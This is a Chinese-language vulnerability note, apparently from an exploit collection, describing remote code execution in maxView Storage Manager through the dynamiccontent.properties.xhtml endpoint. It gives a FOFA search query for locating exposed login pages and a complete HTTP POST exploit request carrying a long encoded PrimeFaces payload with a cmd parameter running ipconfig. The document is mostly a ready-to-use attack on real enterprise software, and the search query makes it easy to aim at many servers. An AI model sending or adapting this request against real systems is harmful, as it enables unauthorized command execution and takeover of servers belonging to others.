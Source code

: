 # maxView Storage Manager 系统 dynamiccontent.properties.xhtml 远程代码执行漏洞

# 一、漏洞简介
maxView Storage Manager 是一款企业存储和通信解决方案的管理系统。maxView Storage Manager 存在代码执行漏洞，攻击者可通过 dynamiccontent.properties.xhtml 执行任意代码获取服务器权限。 

# 二、影响版本
+ maxView Storage Manager 系统

# 三、特征
+ fofa`title="maxView Storage Manager -Login"`
+ 特征

![1711170206968-8730e701-b28e-4f8c-b76e-7ec656da2137.png](./img/AaQLbnI0UgxJhLrz/1711170206968-8730e701-b28e-4f8c-b76e-7ec656da2137-269947.png)

# 四、漏洞复现
```plain
POST /maxview/manager/javax.faces.resource/dynamiccontent.properties.xhtml HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Connection: close
 
pfdrt=sc&ln=primefaces&pfdrid=4xE5s8AClZxUxmyaZjpBstMXUalIgOJHOtvxel%2Fv4YXvibdOn52ow4M6lDaKd9Gb8JdQqbACZNWVZpVS%2B3sX1Hoizouty1mYYT4yJsKPnUZ0LUHDvN0GB5YLgX1PkNY%2B1ZQ%2FnOSg5J1LDyzAjBheAxLDODIVcHkmJ6hnJsQ0YQ8bMU5%2B%2BTqeD4BGqCZMDjP%2BZQvveiUhxsUC%2F%2BtPqnOgFSBV8TBjDSPNmVoQ9YcKTGelKuJjS2kCXHjcyz7PcQksSW6UUmKu9RhJ%2Bx3Mnx6j56eroVPWnM2vdYRt5An6cLo1YPXu9uqriyg1wgm%2F7xYP%2FUwP1q8wfVeyM4fOw2xJzP6i1q4VLHLXi0VYHAIgaPrZ8gH8XH4X2Kq6ewyrJ62QxBF5dtE3tvLAL5tpGxqek5VW%2BhZFe9ePu0n5tLxWmqgqni8bKGbGrGu4IhXhCJhBxyelLQzPGLCfqmiQwYX5Ime9EHj1k5eoWQzH8jb3kQfFJ0exVprGCfXKGfHyfKfLEOd86anNsiQeNavNL7cDKV0yMbz52n6WLQrCAyzulE8kBCZPNGIUJh24npbeaHTaCjHRDtI7aIPHAIhuMWn7Ef5TU9DcXjdJvZqrItJoCDrtxMFfDhb0hpNQ2ise%2BbYIYzUDkUtdRV%2BjCGNI9kbPG5QPhAqp%2FJBhQ%2BXsqIhsu4LfkGbt51STsbVQZvoNaNyukOBL5IDTfNY6wS5bPSOKGuFjsQq0Xoadx1t3fc1YA9pm%2FEWgyR5DdKtmmxG93QqNhZf2RlPRJ5Z3jQAtdxw%2BxBgj6mLY2bEJUZn4R75UWnvLO6JM918jHdfPZELAxOCrzk5MNuoNxsWreDM7e2GX2iTUpfzNILoGaBY5wDnRw46ATxhx6Q%2FEba5MU7vNX1VtGFfHd2cDM5cpSGOlmOMl8qzxYk1R%2BA2eBUMEl8tFa55uwr19mW9VvWatD8orEb1RmByeIFyUeq6xLszczsB5Sy85Y1KPNvjmbTKu0LryGUc3U8VQ7AudToBsIo9ofMUJAwELNASNfLV0fZvUWi0GjoonpBq5jqSrRHuERB1%2BDW2kR6XmnuDdZMt9xdd1BGi1AM3As0KwSetNq6Ezm2fnjpW877buqsB%2BczxMtn6Yt6l88NRYaMHrwuY7s4IMNEBEazc0IBUNF30PH%2B3eIqRZdkimo980HBzVW4SXHnCMST65%2FTaIcy6%2FOXQqNjpMh7DDEQIvDjnMYMyBILCOCSDS4T3JQzgc%2BVhgT97imje%2FKWibF70yMQesNzOCEkaZbKoHz498sqKIDRIHiVEhTZlwdP29sUwt1uqNEV%2F35yQ%2BO8DLt0b%2BjqBECHJzI1IhGvSUWJW37TAgUEnJWpjI9R1hT88614GsVDG0UYv0u8YyS0chh0RryV3BXotoSkSkVGShIT4h0s51Qjswp0luewLtNuVyC5FvHvWiHLzbAArNnmM7k%2FGdCn3jLe9PeJp7yqDzzBBMN9kymtJdlm7c5XnlOv%2BP7wIJbP0i4%2BQF%2BPXw5ePKwSwQ9v8rTQ%3D%3D&cmd=ipconfig
```

![1711170266996-7fc35e2e-adcf-4ef6-9055-ce2d8ca62b39.png](./img/AaQLbnI0UgxJhLrz/1711170266996-7fc35e2e-adcf-4ef6-9055-ce2d8ca62b39-666053.png)



> 更新: 2024-04-16 16:53:12  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/oqknqwns4swn7n8n>